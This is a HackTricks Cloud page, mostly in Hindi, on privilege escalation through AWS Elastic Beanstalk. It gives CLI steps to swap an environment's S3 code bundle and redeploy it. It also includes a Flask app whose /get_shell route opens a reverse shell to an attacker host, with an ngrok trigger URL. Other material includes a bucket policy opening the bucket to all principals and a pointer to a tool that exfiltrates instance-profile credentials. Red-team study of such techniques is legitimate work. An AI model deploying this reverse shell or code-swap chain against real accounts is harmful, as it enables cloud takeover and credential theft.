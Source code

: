# AWS - Elastic Beanstalk Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Elastic Beanstalk

More **info about Elastic Beanstalk** in:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beanstalk में संवेदनशील क्रियाएँ करने के लिए आपको **कई विभिन्न सेवाओं में बहुत सारी संवेदनशील अनुमतियाँ** होनी चाहिए। आप उदाहरण के लिए **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`** को दी गई अनुमतियों की जांच कर सकते हैं।
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, S3 लिखने की अनुमतियाँ & कई अन्य

**पर्यावरण के कोड** वाले **S3 बकेट** पर **लिखने की अनुमतियों** और एप्लिकेशन को **पुनर्निर्माण** करने की अनुमतियों (इसके लिए `elasticbeanstalk:RebuildEnvironment` और `S3`, `EC2` और `Cloudformation` से संबंधित कुछ और की आवश्यकता है) के साथ, आप **कोड** को **संशोधित** कर सकते हैं, **ऐप को पुनर्निर्माण** कर सकते हैं और अगली बार जब आप ऐप तक पहुँचेंगे, तो यह **आपके नए कोड को निष्पादित करेगा**, जिससे हमलावर को एप्लिकेशन और इसके IAM भूमिका क्रेडेंशियल्स को समझौता करने की अनुमति मिलती है।

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, और अधिक...

उल्लेखित और कई **`S3`**, **`EC2`, `cloudformation`**, **`autoscaling`** और **`elasticloadbalancing`** अनुमतियाँ एक कच्चा Elastic Beanstalk परिदृश्य बनाने के लिए आवश्यक हैं।

* एक AWS Elastic Beanstalk एप्लिकेशन बनाएं:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* एक AWS Elastic Beanstalk वातावरण बनाएँ ([**समर्थित प्लेटफ़ॉर्म**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

यदि एक वातावरण पहले से ही बनाया गया है और आप **नया नहीं बनाना चाहते**, तो आप बस **मौजूदा** को **अपडेट** कर सकते हैं।

* अपने एप्लिकेशन कोड और निर्भरताओं को एक ZIP फ़ाइल में पैकेज करें:
```python
zip -r MyApp.zip .
```
* एक S3 बकेट में ZIP फ़ाइल अपलोड करें:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* एक AWS Elastic Beanstalk एप्लिकेशन संस्करण बनाएं:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* अपने AWS Elastic Beanstalk वातावरण में एप्लिकेशन संस्करण को तैनात करें:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

सबसे पहले, आपको एक **वैध Beanstalk वातावरण** बनाना होगा जिसमें **कोड** है जिसे आप **शिकार** में चलाना चाहते हैं, **पिछले चरणों** का पालन करते हुए। संभावित रूप से, इन **2 फ़ाइलों** को शामिल करने वाला एक साधारण **ज़िप**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

एक बार जब आपके पास **अपना खुद का Beanstalk env चल रहा हो** आपका rev shell, तो इसे **शिकार** के env में **स्थानांतरित** करने का समय है। ऐसा करने के लिए, आपको अपने beanstalk S3 बकेट की **Bucket Policy** को **अपडेट** करना होगा ताकि **शिकार इसे एक्सेस कर सके** (ध्यान दें कि इससे **बकेट** **सभी के लिए** **खुल जाएगा**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}

